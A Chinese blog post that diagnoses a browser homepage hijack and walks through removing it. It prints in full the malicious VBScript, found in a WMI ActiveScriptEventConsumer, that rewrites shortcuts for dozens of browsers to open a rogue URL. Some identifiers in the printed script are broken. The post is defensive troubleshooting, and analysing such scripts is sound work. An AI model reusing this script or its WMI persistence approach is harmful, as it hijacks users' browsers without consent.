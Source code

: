 # 浏览器主页被hao123劫持

主要原因是脚本病毒

![](https://arlenluo.github.io/images/post6/L1.jpg "L1")

我们先来看看问题在哪。右键快捷方式查看属性：

![](https://arlenluo.github.io/images/post6/L2.jpg "L2")

哦，原来快捷方式被改了，后面加了一段url。把它删了试试？

还是不行，几分钟后还是被改回来了。

我在很多平台上找了解决办法。有的试了没有效果，重新开机后还是一样的毛病，有的推荐装“管家”，但这种以毒攻毒的办法无异于饮鸩止渴。最后终于有一种靠谱的方法，经过实验和一点修改，完美解决！

主页被劫持的原理是一段通过WMI发起的定时自动运行脚本，WMI（Windows Management Instrumentation）可以理解成Windows系统后台运行的一个事件管理器。为查看WMI事件，先去下载WMITools并安装：[WMI工具](https://arlenluo.github.io/images/post6/WMITools.exe)。

之后打开WMI Event Viewer：

![](https://arlenluo.github.io/images/post6/L3.jpg "L3")

点击左上角的笔的图标（Register For Events），在弹出的Connect to namespace的框直接点OK，Login的页面也直接点OK。点开左侧栏的EventFilter，再点击下级目录的项目：

![](https://arlenluo.github.io/images/post6/L4.jpg "L4")

在右侧栏右键点击ActiveScriptEventConsumer，并通过view instant properties查看属性：

![](https://arlenluo.github.io/images/post6/L5.jpg "L5")

在Script Text那一栏我们可以看到这段脚本：

```
On Error Resume Next

Const link = "http://hao.qquu8.com/?m=yx
&
r=j"
Const link360 = "http://hao.qquu8.com/?m=yx
&
r=j
&
s=3"
browsers = "114ie.exe,115chrome.exe,1616browser.exe,2345chrome.exe,2345explorer.exe,360se.exe,360chrome.exe,,avant.exe,baidubrowser.exe,chgreenbrowser.exe,chrome.exe,firefox.exe,greenbrowser.exe,iexplore.exe,juzi.exe,kbrowser.exe,launcher.exe,liebao.exe,maxthon.exe,niuniubrowser.exe,qqbrowser.exe,sogouexplorer.exe,srie.exe,tango3.exe,theworld.exe,tiantian.exe,twchrome.exe,ucbrowser.exe,webgamegt.exe,xbrowser.exe,xttbrowser.exe,yidian.exe,yyexplorer.exe"
lnkpaths = "C:\Users\Public\Desktop,C:\ProgramData\Microsoft\Windows\Start Menu\Programs,C:\Users\sjtul\Desktop,C:\Users\sjtul\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch,C:\Users\sjtul\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\StartMenu,C:\Users\sjtul\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar,C:\Users\sjtul\AppData\Roaming\Microsoft\Windows\Start Menu\Programs"
browsersArr = split(browsers,",")
Set oDic = CreateObject("scripting.dictionary")
For Each browser In browsersArr
    oDic.Add LCase(browser), browser
Next
lnkpathsArr = split(lnkpaths,",")
Set oFolders = CreateObject("scripting.dictionary")
For Each lnkpath In lnkpathsArr
    oFolders.Add lnkpath, lnkpath
Next
Set fso = CreateObject("Scripting.Filesystemobject")
Set WshShell = CreateObject("Wscript.Shell")
For Each oFolder In oFolders
    If fso.FolderExists(oFolder) Then
        For Each file In fso.GetFolder(oFolder).Files
            If LCase(fso.GetExtensionName(file.Path)) = "lnk" Then
                Set oShellLink = WshShell.CreateShortcut(file.Path)
                path = oShellLink.TargetPath
                name = fso.GetBaseName(path) 
&
 "." 
&
 fso.GetExtensionName(path)
                If oDic.Exists(LCase(name)) Then
                    If LCase(name) = LCase("360se.exe") Then
                        oDicShellLink.Arguments = link360
                    Else
                        oShellLink.Arguments = link
                    End If
                    If file.Attributes And 1 Then
                        fsoile.Attributes = file.Attributes - 1
                    End If
                    oShellLink.Save
                End If
            End If
        Next
    End If
Next

```

终于抓到了幕后黑手。可以看到这是一段VBScript代码，攻击目标涵盖了包括Chrome、360、Firefox、搜狗等30余种常见的浏览器。脚本以浏览器的安装地址为切入点，创建WshShell对象，进而生成植入了流氓网站的快捷方式。360浏览器有限定主页格式，于是这段脚本还特地修饰了流氓网站的链接。唉，流氓至此，也是服了。

查到了源头如何清清除这段造孽的脚本呢？直接在WMI Event Viewer中将\_EventFilter.Name="VBScriptKids\_filter"右键删掉会被系统拒绝掉，需要去WMI Event Viewer的安装位置，右键以管理员方式运行exe文件才能删掉。之后还要把各个快捷方式都改回不带流氓网站的版本，包括桌面上的、开始菜单里的以及快速访问栏里的快捷方式，其中开始菜单里的快捷方式要去C:\ProgramData\Microsoft\Windows\Start Menu\Programs里改掉。唉，一趟下来真是让人心累，好在最终浏览器摆脱了流氓网站的劫持：

![](https://arlenluo.github.io/images/post6/L6.jpg "L6")

当然在这时候，你可以点击之前下载的WMI安装包，把WMI系列工具卸载掉。

参考 [https://arlenluo.github.io/2017/03/12/DefeatYourBrowser](https://arlenluo.github.io/2017/03/12/DefeatYourBrowser "主页劫持")



